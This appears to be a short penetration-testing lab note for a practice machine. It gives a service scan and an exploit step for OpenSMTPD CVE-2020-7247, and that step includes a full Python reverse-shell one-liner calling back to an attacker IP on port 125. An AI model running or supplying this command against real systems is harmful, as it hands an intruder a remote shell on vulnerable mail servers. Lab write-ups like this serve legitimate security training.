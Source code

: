 # Box: 192.168.244.71

---

## System Info
- **OS/Tech:** Ubuntu Linux, FlaskBB (Python), Nginx  
- **Framework:** FlaskBB Forum

---

## Credentials
- **User:** `bratarina`  
- **Password:** _(none yet)_

---

##  Service Enumeration

| Port   | State | Service  | Version                                                                    |
| ------ | ----- | -------- | -------------------------------------------------------------------------- |
| **22** | open  | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (protocol 2.0)                              |
| **25** | open  | smtp     | OpenSMTPD                                                                 |
| **53** | closed| domain   | —                                                                          |
| **80** | open  | http     | nginx 1.14.0 (Ubuntu)                                                      |
| **445**| open  | netbios-ssn | Samba smbd 3.x–4.x (workgroup: COFFEECORP)                               |

---

##  Exploits & Insights

### 1. ESMTP (port 25) → **CVE 2020‑7247**
- **Vuln:** OpenSMTPD command‑injection via mail filter  
- **Exploit**:
  ```bash
  python3 47984.py 192.168.244.71 25 \
    'python -c "import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect((\"192.168.45.183\",125));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call([\"/bin/sh\",\"-i\"]);"'
